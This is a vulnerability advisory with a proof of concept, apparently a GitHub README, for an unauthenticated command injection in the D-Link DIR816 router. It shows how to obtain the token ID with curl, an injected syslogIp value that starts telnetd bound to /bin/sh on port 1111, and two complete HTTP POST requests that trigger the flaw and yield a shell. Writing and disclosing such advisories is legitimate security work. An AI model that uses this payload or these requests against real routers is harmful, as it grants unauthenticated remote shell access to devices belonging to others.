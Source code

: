 # D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an command Injection vulnerability in D-Link router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Remote Command Execution**

In `goahead` binary:

In `sylogapply` function, `syslogIp` is directly passed by the attacker, so we can control the `syslogIp` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

Eventually, in `clearlog` function, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

Vulnerability trigger steps:

* set `syslogIp`=**;telnetd -l /bin/sh -p 1111;**, in (`sylogapply`)
* Trigger the vulnerability, in (`clearlog`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

set `syslogIp`=**;telnetd -l /bin/sh -p 1111;**, in (`sylogapply`)

```http
POST /goform/sylogapply HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_acl.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

syslogIp=;telnetd -l /bin/sh -p 1111;&remotesyslog=1&tokenid=1714636915
```

Trigger the vulnerability, in (`clearlog`)

```http
POST /goform/clearlog HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_acl.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

tokenid=1957747793
```



## Result

Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

